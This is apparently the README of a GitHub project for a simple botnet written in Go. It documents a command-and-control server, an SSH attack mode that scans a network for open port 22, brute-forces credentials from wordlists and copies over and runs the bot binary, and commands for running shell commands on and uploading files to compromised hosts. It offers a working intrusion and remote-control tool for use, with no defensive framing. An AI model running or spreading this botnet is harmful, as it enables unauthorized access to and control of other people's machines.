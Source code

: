 ## Go Botnet

Simple botnet written in GO. It features a command and control over cli and a botnet payload that communicates to the C&C over tcp.

# Usage:

Compile from the `botnet/cmd/botnet` directory. 

 - Run the C&C:

```bash
botnet listen
```

This starts up a C&C that listens on default port `9999`.

- Attack a machine to get the botnet on the machine. The only supported attack right now is brute forcing SSH

```bash
botnet -ufile /paht/to/usernames/file -pfile /path/to/passwords/file attack ssh
```

This will scan all the ips on the network find which ips have port 22 open and attempt to brute force its way in. Once it has access it will SCP the botnet binary over and execute the botnet client to connect to our command and control center

 - Connect a payload to the C&C:

```bash
botnet -target 192.168.2.2 -port 9999 connect
```

This will start a botnet payload that connects to the C&C on port `9999`.

- Now that we have a payload connected to our C&C we can run a view commands. You'll see the C&C prompt `<CC:#>`

show all payloads connected to C&C:

```bash
<CC:#> show
```

This will return the payload ids and addresses

```
ID: 0 Address: 127.0.0.1:64635
ID: 1 Address: 127.0.0.1:64634
```

- To communicate with the payload use the `use` command followed by the payloads id:

```bash
<CC:#> use 0
```

You will notice now your prompt is changed to `<PL:#>`

- Execute a command in the remote server just type in a command:

```bash
<PL:#> ls -l
```

This will return the directory where the payload is running

- Send a file to the payload:

```bash
<PL:#> u: /path/to/file
```

This will send the specified file to the payload

- Exit out of the payload and go back to the main C&C

```bash
<PL:#> exit
```

You should see a message saying `payload exiting` and the prompt should be back to `<CC#>`
